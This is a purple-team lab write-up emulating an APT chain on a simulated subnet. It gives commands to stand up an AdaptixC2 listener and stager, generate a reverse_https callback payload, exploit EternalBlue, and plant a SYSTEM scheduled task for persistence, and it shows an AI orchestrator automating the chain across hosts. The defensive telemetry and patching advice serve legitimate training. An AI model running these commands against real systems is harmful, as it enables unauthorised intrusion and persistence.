







# GrayOS – Day 22 Lab PoC
Adversary Emulation with AdaptixC2

**Analyst:** Jnanashree Anchan | **Date:** 12 October 2026

---

This lab runs a full adversary-emulation chain against a simulated internal network (192.168.1.0/24), stitching together four post-exploitation tools: AdaptixC2 for command and control, MetasploitMCP for payload generation and initial access, Penelope for session handling and persistence, and the Nighthawk AI orchestrator to automate the whole chain. It stands up a listener, breaks in via EternalBlue, establishes scheduled-task persistence as SYSTEM, then lets the orchestrator replay the attack across the subnet, and closes by packaging the evidence. This is a purple-team exercise: every step is documented from the defender's side so it maps to detectable telemetry.

---

## Key Findings

A simulated APT emulation compromised 4 of 12 hosts on an internal subnet, chaining four C2 and automation tools from listener setup to automated, repeatable attack execution.

- **C2 stood up:** AdaptixC2 v3.2.1 started an SSL listener on 0.0.0.0:8080 under the "APT_Simulation" profile and generated a 348 KB XOR-encrypted Windows x64 stager.
- **Initial access:** MetasploitMCP generated a reverse_https payload and exploited EternalBlue (windows/smb/eternalblue) against 192.168.1.50:445, opening a shell session.
- **Post-exploitation:** Penelope confirmed NT AUTHORITY\SYSTEM on session 1, uploaded payload.exe to C:\Windows\Temp\, and created a scheduled task "Updater" running daily at 09:00 for persistence.
- **Automation:** Nighthawk planned and executed a 10-step APT chain across 192.168.1.0/24, compromising 4 hosts and establishing 3 persistence mechanisms, then produced an HTML report.
- **Evidence:** the full run was written to day22_report.md, archived with the logs and session data, and hashed (SHA-256) for integrity.

IOCs: attacker host 192.168.1.100, target 192.168.1.50, payload.exe in C:\Windows\Temp\, the "Updater" scheduled task, and listeners on 0.0.0.0:8080 and 8443.

---

## Key Concepts

| Term / Concept | Description |
|---|---|
| AdaptixC2 | Post-exploitation command and control framework for adversary emulation and red teaming. |
| MetasploitMCP | MCP server for Metasploit that generates exploit modules and payloads. |
| Penelope | Shell handler for managing post-exploitation sessions. |
| Nighthawk | AI-powered orchestrator for automating attack chains. |
| Purple Teaming | Combining red (attack) and blue (defense) team activities. |
| Adversary Emulation | Simulating real APT behavior to test defenses. |

---

# Phase 1 – AdaptixC2 Setup & Listener

Step 1: Start AdaptixC2 and configure a listener for incoming shells.

**Command:** `adaptix start --listener 0.0.0.0:8080`

**Command:** `adaptix create --type windows --arch x64 --stager`

**Command:** `adaptix listener show`

Stands up the C2 infrastructure. AdaptixC2 v3.2.1 starts, loads 47 modules, and opens an SSL listener on 0.0.0.0:8080 under the "APT_Simulation" profile. It then generates a 348 KB Windows x64 stager at /tmp/stager.exe with XOR encryption applied. The listener list confirms two active listeners, l1 on 8080 and l2 on 8443, ready for incoming connections.

---

# Phase 2 – Payload Generation & Initial Access

Step 2: Use MetasploitMCP to generate payloads and gain initial access.

**Command:** `msf-mcp generate --platform windows --payload reverse_https`

**Command:** `msf-mcp exploit --target 192.168.1.50 --module windows/smb/eternalblue`

**Command:** `msf-mcp sessions --list`

Gains the first foothold. MetasploitMCP v2.0.0 generates a reverse_https payload at /tmp/payload.exe calling back to 192.168.1.100:443, then runs the EternalBlue exploit (windows/smb/eternalblue) against 192.168.1.50:445 and opens shell session ID 1. The session list confirms two active sessions, a shell on 192.168.1.50 and a Meterpreter session on 192.168.1.55.

---

# Phase 3 – Post-Exploitation with Penelope

Step 3: Use the Penelope shell handler to manage sessions and establish persistence.

**Command:** `penelope start --port 4444`

**Command:** `penelope session --id 1 --cmd "whoami"`

**Command:** `penelope session --id 1 --upload /tmp/payload.exe C:\Windows\Temp\`

**Command:** `penelope session --id 1 --cmd "schtasks /create /tn Updater /tr C:\Windows\Temp\payload.exe /sc daily /st 09:00"`

Takes over session management and plants persistence. Penelope v1.5.0 starts a handler on 0.0.0.0:4444, then on session 1 confirms the context is nt authority\system (full privilege), uploads payload.exe (348 KB) to C:\Windows\Temp\, and creates a scheduled task "Updater" that runs the payload daily at 09:00. The scheduled task is the persistence mechanism that survives reboots.

---

# Phase 4 – AI Automation with Nighthawk

Step 4: Use the Nighthawk AI orchestrator to automate the full attack chain.

**Command:** `nighthawk plan --target 192.168.1.0/24 --strategy APT`

Builds the automated attack plan. Nighthawk AI Orchestrator v3.0.0 scans 192.168.1.0/24, finds 12 live hosts, and generates a multi-phase plan (Reconnaissance 5 steps, Initial Access 3 steps, Persistence 2 steps) saved to plan_APT_20260903.json.

**Command:** `nighthawk execute --plan plan_APT_20260903.json`

**Command:** `nighthawk report --format html`

Runs and reports the plan. Nighthawk executes the 10-step chain (port scan, EternalBlue, shell access, persistence payload upload, scheduled task, and so on) and reports the full chain executed with 4 hosts compromised. It then generates an HTML report, nighthawk_report_20260903.html, summarizing 4 of 12 hosts compromised and 3 persistence mechanisms established.

---

# Phase 5 – Report Generation & Submission

Step 5: Generate the adversary-emulation report and submit the evidence.

**Command:** `cat > day22_report.md`

Writes the adversary-emulation report: the attack-chain overview (AdaptixC2 + MetasploitMCP + Penelope + Nighthawk against 192.168.1.0/24), the four phases from listener setup through automation, and the defensive recommendations, patch EternalBlue (MS17-010) on all Windows systems, monitor for scheduled-task creations, and deploy EDR with behavioral detection.

**Command:** `tar -czvf day22_evidence.tar.gz day22_report.md adaptix_logs/ penelope_sessions.log nighthawk_report_20260903.html`

**Command:** `sha256sum day22_evidence.tar.gz`

Packages the evidence, the report, the AdaptixC2 logs, the Penelope session log, and the Nighthawk HTML report, into a tarball and hashes it. The archive SHA-256 is a valid 64-character digest for integrity.

---

# Summary

| Phase | Action Taken | Tools | Attacker Goal |
|---|---|---|---|
| 1. AdaptixC2 Setup & Listener | Started an SSL C2 listener and generated a Windows x64 stager | AdaptixC2 | Stand up command and control |
| 2. Payload Generation & Initial Access | Generated a reverse_https payload and exploited EternalBlue to open a shell | MetasploitMCP | Gain initial access |
| 3. Post-Exploitation with Penelope | Confirmed SYSTEM, uploaded the payload, and created a scheduled task | Penelope, schtasks | Establish persistence |
| 4. AI Automation with Nighthawk | Planned and executed the full APT chain across the subnet | Nighthawk | Automate and scale the attack |
| 5. Report Generation & Submission | Wrote the report, archived the evidence, and hashed it | cat, tar, sha256sum | Document and package the operation |

This lab emulates a complete APT operation, from standing up C2 to automating the chain across a subnet, which is the point of adversary emulation: replaying real attacker behavior to test whether defenses see it. Read as a blue team, the chain is loud with detectable signals: a new SSL listener and reverse_https callbacks to 192.168.1.100 (network), the EternalBlue SMB exploit against 192.168.1.50 (MS17-010 traffic), a process running as NT AUTHORITY\SYSTEM dropping an executable into C:\Windows\Temp\ (Sysmon 11, 4688), and a scheduled task "Updater" created for persistence (4698). The single most actionable defensive takeaway is the one in the report itself: patch MS17-010, because the entire chain hinges on that one unpatched entry point, and alert on scheduled-task creation and new admin persistence to catch what patching misses.
